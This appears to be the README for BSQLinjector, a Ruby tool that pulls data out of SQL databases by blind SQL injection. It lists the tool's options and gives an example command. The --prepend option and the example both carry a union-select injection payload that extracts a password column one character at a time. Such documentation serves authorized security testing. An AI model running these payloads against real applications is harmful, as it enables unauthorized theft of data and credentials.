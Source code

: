 BSQLinjector by Jakub Pałaczyński

BSQLinjector uses blind method to retrieve data from SQL databases.
I recommend using "--test" switch to clearly see how configured payload looks like before sending it to an application.

Options:
  --file	Mandatory - File containing valid HTTP request and SQL injection point (SQLINJECT). (--file=/tmp/req.txt)
  --pattern	Mandatory - Pattern to look for when query is true. (--pattern=truestatement)
  --prepend	Mandatory - Main payload. (--prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password,"
  --append	How to end our payload. For example comment out rest of SQL statement. (--append='#)
  --2ndfile	File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)

  --mode	Blind mode to use - (between - b (generates less requests), moreless - a (generates less requests by using "<", ">", "=" characters), like - l (complete bruteforce), equals - e (complete bruteforce)). (--mode=l)
  --hex		Use hex to compare instead of characters.
  --case	Case sensitivity.

  --ssl		Use SSL.
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)

  --test	Enable test mode. Do not send request, just show full payload.
  --comma	Encode comma.
  --bracket	Add brackets to the end of substring function. --bracket="))"
  --schar	Character placed around chars. This character is not used while in hex mode. (--schar="'")
  --special	Include all special characters in enumeration.
  --start	Start enumeration from specified character. (--start=10)
  --max		Maximum characters to enumerate. (--max=10)
  --timeout	Timeout in waiting for responses. (--timeout=20)
  --verbose	Show verbose messages.

Example usage:
  ruby ./BSQLinjector.rb --pattern=truestatement --file=/tmp/req.txt --prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password," --append="'#" --ssl
